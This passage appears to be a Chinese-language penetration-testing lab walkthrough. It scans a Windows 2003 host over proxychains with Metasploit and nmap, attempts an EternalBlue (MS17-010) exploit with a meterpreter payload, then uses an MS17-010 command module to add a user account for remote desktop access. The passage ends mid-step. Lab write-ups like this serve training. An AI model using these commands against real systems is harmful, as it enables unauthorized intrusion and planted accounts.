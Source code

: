 设置代理成功后 使用其他工具时需要添加`proxychains`

## 渗透win2003(远程登录)

### 信息收集

扫描主机版本

```
use auxiliary/scanner/smb/smb_version
```

```
set rhosts 192.168.52.141
run
```

![image-20230516213943669](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230516213943669.png)

(emm，一开始没看到141就把前几个都扫了一遍。。。。)

Nmap扫描 192.168.52.141

```
proxychains nmap -Pn -sT 192.168.52.141
```

![image-20230516212409997](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230516212409997.png)

### 尝试攻击

由nmap看到开放445端口
尝试永恒之蓝攻击win2003

```
use exploit/windows/smb/ms17_010_psexec
```

```
set payload windows/meterpreter/bind_tcp
set rhosts 192.168.52.141
run
```

![image-20230516221804853](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230516221804853.png)    

经过了几次尝试，没有打下来

![image-20230516222729801](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230516222729801.png)

可以尝试执行一些系统权限命令，比如添加管理员账户尝试3389登录

```
use auxiliary/admin/smb/ms17_010_command
show options
set rhosts 192.168.52.141
//添加用户
set command net user kun hongrisec@2019 /add
```
